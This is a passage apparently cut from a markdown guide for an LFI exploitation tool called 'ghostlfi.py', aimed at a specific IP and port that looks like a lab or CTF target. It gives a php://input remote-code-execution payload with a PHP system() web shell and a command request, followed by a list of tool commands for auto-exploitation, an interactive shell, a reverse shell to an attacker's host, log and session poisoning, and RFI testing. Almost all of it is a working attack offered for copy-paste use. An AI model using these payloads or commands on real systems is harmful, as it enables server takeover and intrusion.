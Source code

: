 ### PHP Input (for RCE):
```bash
# POST request with:
POST /index.php?view=php://input HTTP/1.1
Host: 94.237.57.211:45888

<?php system($_GET['cmd']); ?>

# Then:
http://94.237.57.211:45888/index.php?view=php://input&cmd=id
```

---

## 📋 COMMAND SUMMARY

```bash
# Discovery (DONE ✅)
python3 ghostlfi.py -u URL --fuzz-params

# File Fuzzing (NEXT)
python3 ghostlfi.py -u URL -p view --fuzz-files

# Complete Recon
python3 ghostlfi.py -u URL -p view --fuzz-all

# Auto Exploitation
python3 ghostlfi.py -u URL -p view --auto

# Interactive Shell
python3 ghostlfi.py -u URL -p view --auto --shell

# Reverse Shell
python3 ghostlfi.py -u URL -p view --auto --revshell --lhost YOUR_IP

# Log Poisoning
python3 ghostlfi.py -u URL -p view --test-log-poison

# Session Poisoning
python3 ghostlfi.py -u URL -p view --test-session-poison

# RFI Testing
python3 ghostlfi.py -u URL -p view --test-rfi

# Generate Payloads
python3 ghostlfi.py -u URL -p view --generate lfi
```

---

## 🎮 COPY-PASTE COMMANDS FOR YOUR TARGET
